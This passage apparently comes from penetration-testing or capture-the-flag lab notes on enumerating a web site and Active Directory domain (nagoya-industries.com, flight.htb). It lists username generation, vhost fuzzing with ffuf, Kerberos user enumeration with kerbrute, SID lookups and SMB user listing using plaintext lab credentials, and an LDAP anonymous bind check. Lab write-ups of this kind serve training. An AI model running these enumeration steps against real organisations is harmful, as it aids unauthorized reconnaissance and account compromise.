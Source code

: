 ![image.png](image%205.png)

**`Error`** directory

![image.png](image%206.png)

We can make a list of users from `Team` directory. I am gonna use `username-anarchy` to find a variations of usernames.

```bash
sudo /opt/brute-force/username-anarchy/username-anarchy -f first,first.last,last,flast,f.last -i users > usernames
```

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://nagoya-industries.com/ -H 'Host: FUZZ.nagoya-industries.com' -fs 3530
```

![image.png](image%207.png)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d nagoya-industries.com --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

Authenticated

```bash
 lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

### User Description Fields

```bash
sudo nxc smb $IP -u 'judith.mader'  -p 'judith09' --users
```

### Port 389/3268

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=nagoya-industries,DC=com"
```

![image.png](image%208.png)

LDAP Anonymous Bind is not enabled.
